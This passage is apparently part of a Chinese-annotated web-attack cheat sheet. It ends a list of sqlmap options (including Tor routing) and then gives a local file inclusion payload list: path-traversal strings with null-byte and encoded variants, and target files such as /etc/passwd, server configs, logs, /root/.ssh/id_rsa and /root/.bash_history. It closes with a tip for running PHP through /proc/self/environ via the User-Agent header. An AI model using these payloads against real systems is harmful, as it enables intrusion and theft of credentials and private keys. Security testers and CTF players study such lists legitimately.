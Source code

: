        - Thread: `--threads=10`
        - Level: `--level=3`
            - default: 1
        - `--technique`
            - default: `BEUSTQ`
        - Cookie: `--cookie="abc=12347788"`
        - Tor: `--tor --check-tor --tor-type=SOCKS5 --tor-port=9050`

# LFI

## Testing Payload

### Linux / Unix

- `./index.php`
- `././index.php`
- `.//index.php`
- `../../../../../../etc/passwd`
- `../../../../../../etc/passwd%00`
    - 仅在5.3.0以下可用
    - magic_quotes_gpc需为OFF
- `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
- `ＮＮ/ＮＮ/ＮＮ/etc/passwd`
- `/var/log/apache2/error.log`
- `/var/log/httpd/access_log`
- `/usr/local/apache2/conf/httpd.conf`
- `/etc/apache2/apache2.conf`
- `/etc/apache2/sites-available/000-default.conf`
- `/usr/local/etc/apache2/httpd.conf`
- `/etc/nginx/conf.d/default.conf`
- `/etc/nginx/nginx.conf`
- `/etc/nginx/sites-enabled/default`
- `/etc/nginx/sites-enabled/default.conf`
- `.htaccess`
- `/root/.bash_history`
- `/root/.ssh/id_rsa`
- `/root/.ssh/authorized_keys`

### Windows

- `C:/Windows/win.ini`
- `C:/boot.ini`
- `C:/apache/logs/access.log`
- `../../../../../../../../../boot.ini/.......................`
- `C:/windows/system32/drivers/etc/hosts`

## 环境变量

- `../../../../proc/self/environ`
    - HTTP_User_Agent塞php script
